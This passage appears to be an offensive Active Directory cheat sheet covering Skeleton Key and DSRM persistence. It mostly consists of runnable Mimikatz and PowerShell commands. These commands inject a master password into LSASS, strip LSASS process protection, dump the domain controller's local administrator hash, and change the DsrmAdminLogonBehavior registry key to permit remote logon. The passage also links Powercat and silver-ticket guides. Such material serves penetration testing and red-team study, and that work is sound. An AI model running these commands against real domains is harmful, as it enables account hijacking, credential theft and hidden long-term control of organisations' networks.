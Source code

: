 > Useful tool: [**Powercat**](https://github.com/besimorhino/powercat)

## Further reading
- Cheatsheet -> [**Hacktricks**](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket)
- Explained -> [**Silver-tickets**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)

# Skeleton key
The Skeleton Key is a particularly scary piece of malware targeted at Active Directory domains to make it alarmingly easy to hijack any account. This malware injects itself into **LSASS** and creates a master password that will work for any account in the domain. Existing passwords will also continue to work, so it is very difficult to know this attack has taken place unless you know what to look for.
## Attack
Requires DA privileges
```powershell 
#(Nishang module)
Invoke-Mimikatz -Command '"misc::skeleton"'

# Now you can authenticate as any user with the default password of --> Mimikatz
```
In case lssas is running as a protected process we can still use skeleton key but it needs the mimikatz driver (mimideiv.sys) on disk of the target.
```powershell
mimikatz
privilege::debug
!+
!processprotect /process:lssas.exe /remove
misc::skeleton
!-

#Very Noisy in logs
```
 > **Note:** Rebooting a domain controller will remove this malware and it will have to be redeployed by the attacker.

# DSRM
There is a **local administrator** account inside each **DC**. Having admin privileges in this machine you can use mimikatz to **dump the local Administrator hash**. Then, modifying a registry to **activate this password** so you can remotely access to this local Administrator user.
## Attack
1. Dump the hash of local administrator.
```powershell
#(Nishang module)
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
2. Then we need to check if that account will work, and if the registry key has the value "0" or it doesn't exist you need to **set it to "2"**.
```powershell
#Check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior
#Create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD
#Change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2
```